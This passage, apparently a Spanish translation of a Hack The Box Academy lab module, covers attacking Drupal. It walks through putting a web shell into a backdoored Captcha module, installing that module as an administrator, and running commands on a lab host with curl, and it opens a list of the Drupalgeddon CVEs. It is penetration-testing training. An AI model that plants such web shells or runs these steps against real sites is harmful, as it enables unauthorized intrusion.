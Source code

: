 La configuración anterior aplicará reglas para la carpeta / cuando solicitemos un archivo en /modules. Copie ambos archivos a la carpeta captcha y cree un archivo comprimido.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>
```

Suponiendo que tenemos acceso administrativo al sitio web, haga clic en `Manage` y luego en `Extend` en la barra lateral. A continuación, haga clic en el botón `+ Install new module`, y seremos llevados a la página de instalación, como `http://drupal.inlanefreight.local/admin/modules/install` Busque el archivo Captcha con puerta trasera y haga clic en `Install`.

`http://drupal.inlanefreight.local/core/authorize.php`

![](https://academy.hackthebox.com/storage/modules/113/module_installed.png)

Una vez que la instalación tenga éxito, navegue a `/modules/captcha/shell.php` para ejecutar comandos.

```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Leveraging Known Vulnerabilities

A lo largo de los años, el núcleo de Drupal ha sufrido algunas vulnerabilidades graves de ejecución remota de código, cada una apodada `Drupalgeddon`. Al momento de escribir, existen 3 vulnerabilidades Drupalgeddon.

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), conocida como Drupalgeddon, afecta a las versiones 7.0 hasta 7.31 y se solucionó en la versión 7.32. Esta fue una falla de inyección SQL preautenticada que podría usarse para subir un formulario malicioso o crear un nuevo usuario administrador.
    
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), también conocida como Drupalgeddon2, es una vulnerabilidad de ejecución remota de código, que afecta a las versiones de Drupal anteriores a 7.58 y 8.5.1. La vulnerabilidad ocurre debido a una sanitización de entrada insuficiente durante el registro de usuarios, lo que permite que se inyecten comandos a nivel del sistema de manera maliciosa.
    